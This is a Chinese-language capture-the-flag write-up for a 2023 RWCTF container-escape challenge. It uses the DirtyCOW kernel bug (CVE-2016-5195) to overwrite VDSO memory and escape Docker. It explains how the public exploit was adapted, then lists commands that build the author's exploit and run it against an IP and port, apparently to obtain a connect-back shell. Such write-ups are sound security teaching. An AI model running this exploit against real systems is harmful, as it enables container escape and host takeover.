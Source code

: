 ## About

这是2023年第五届RWCTF体验赛的容器逃逸的其中一个题目, 题目作者是 [zh-explorer][1]

## Description of the challenge

## Weriteup
首先查看内核版本。可以发现是一个比较旧的内核版本

再结合题目描述和名字，可以知道这题应该需要使用CVE-2016-5195也就是著名的DirtyCOW漏洞来进行容器逃逸。

想要使用DirtyCOW进行容器逃逸。需要使用DirtyCOW-VDSO的利用方式，也就是通过DirtyCOW覆盖VDSO数据来实现对容器的逃逸。

但是现有的最著名的vdso逃逸利用https://github.com/scumjr/dirtycow-vdso存在以下两个问题：

1. 该利用使用的ptrace方式来实现对VDSO内存的修改触发COW。但是新版本docker默认禁止ptrace。
2. 该利用对vdso的patch选择的位置在ubuntu的内核里触发不了。需要换个一patch点。
    本着不能只有自己被坑的原则，出了这题。
    需要将原来的ptrace利用方式换回/proc/self/mem利用并且更换触发点。或者不想改也可以重写一遍DirtyCOW利用即可。利用参考https://github.com/zh-explorer/dirtycow.git。利用流程如下：

```bash
pip install -i https://pypi.tuna.tsinghua.edu.cn/simple pyelftools
git clone https://github.com/zh-explorer/dirtycow.git
cd  dirtycow
mkdir build
cd build
cmake ..
make
./dirtycow {IP} 31337
```



![img](https://alidocs.oss-cn-zhangjiakou.aliyuncs.com/res/w5VLqXgzQVKxnX19/img/58f35648-e589-4117-82ba-258a554deea4.png)



![img](https://alidocs.oss-cn-zhangjiakou.aliyuncs.com/res/w5VLqXgzQVKxnX19/img/2feeffe4-f727-4c62-b499-f03f97372396.png)

## Deploy

题目部署脚本相关可以参考 [deploy][2] 文件夹


## Reference Link

[1]: https://github.com/zh-explorer
[2]: ./deploy	"题目部署脚本"
